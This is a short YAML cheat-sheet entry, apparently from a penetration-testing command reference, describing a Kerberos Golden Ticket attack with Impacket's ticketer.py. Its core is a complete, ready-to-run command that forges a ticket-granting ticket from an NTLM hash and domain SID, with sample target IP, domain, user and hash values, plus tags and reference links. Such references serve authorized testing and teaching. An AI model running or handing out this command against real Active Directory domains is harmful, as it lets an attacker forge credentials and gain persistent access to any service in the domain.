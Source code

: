```yaml
---
description: |
  Impacket's ticketer.py can perform Golden Ticket attacks, which crafts a valid TGT ticket using a valid user's NTLM hash. It is then possible to access any service using the TGT by requesting a TGS for that service.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 john
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

